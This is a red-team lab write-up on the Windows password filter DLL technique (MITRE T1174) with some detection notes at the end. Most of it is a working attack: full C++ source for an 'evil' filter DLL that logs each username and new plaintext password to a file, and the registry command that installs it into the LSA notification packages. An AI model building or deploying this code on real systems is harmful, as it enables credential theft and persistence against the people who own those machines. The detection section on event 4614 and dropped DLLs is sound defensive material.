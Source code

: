 ```yaml
---
layout: post
title: "2024-06-18-t1174 password filter dll"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1174-password-filter-dll/
---
```


---
description: Credential Access
---

# Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% code title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode %}

Or via regedit:

![](../../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% code title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode %}

![](../../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

@spotheplanet
